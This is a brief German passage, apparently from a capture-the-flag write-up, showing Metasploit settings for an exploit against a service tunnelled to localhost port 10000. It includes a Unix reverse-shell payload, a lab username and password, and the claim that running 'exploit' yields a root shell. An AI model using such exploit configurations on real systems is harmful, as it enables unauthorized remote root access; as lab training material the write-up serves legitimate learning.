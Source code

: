 der Exploit 0 sieht gut aus. Hier müssen wir dann noch Optionen setzen. 

```
set PAYLOAD payload/cmd/unix/reverse
set PASSWORDS videogamer124
set USERNAME agent47
set RHOSTS 127.0.0.1              #Da wir das ja auf Localhost mit Port 10000 tunneln
set RPORT 10000
set SSL false
```

danach nurnoch `exploit` und wir erhalten die Revshell und bei whoami sehen wir sogar das die shell schon root ist

